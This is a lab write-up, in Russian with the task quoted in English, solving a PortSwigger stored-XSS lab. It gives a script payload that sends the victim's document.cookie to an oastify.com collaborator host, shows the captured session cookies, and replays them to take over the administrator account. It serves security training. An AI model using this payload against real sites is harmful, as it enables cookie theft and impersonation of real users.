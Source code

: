 # Exploiting cross-site scripting to steal cookies
PRACTITIONER

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

## Решение
Подготовлю пейлоад с доменом коллаборатора и оставлю комментарий к первому посту блога:
```
<script>
var x1 = document.createElement('img');
x1.src = "https://nsjzacq4zp3eowulf237yg03eukl8bw0.oastify.com?catpants=" + document.cookie;
document.body.appendChild(x1);
</script>
```
В коллаборатор приходит запрос
```
GET /?catpants=secret=WzGnBkScbLu5hagFVYav56CEA42jbYat;%20session=BlEo0zEBfwxqBwpJQjM1NDmPxPTXBUEl HTTP/1.1
Host: c8loq16tfej34laavrjwe5gsuj0ao5cu.oastify.com
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua-platform: "Linux"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a8800090448678d80ce301c002e00da.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
Отправлю запрос к `/my-account`, подставив полученные кукисы:
```
GET /my-account HTTP/2
Host: 0a8800090448678d80ce301c002e00da.web-security-academy.net
Cookie: catpants=secret=WzGnBkScbLu5hagFVYav56CEA42jbYat; session=BlEo0zEBfwxqBwpJQjM1NDmPxPTXBUEl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8800090448678d80ce301c002e00da.web-security-academy.net/post?postId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
В ответе видно, что сервер обработал запрос и вывел имя пользователя ("administrator"). Задание выполнено.
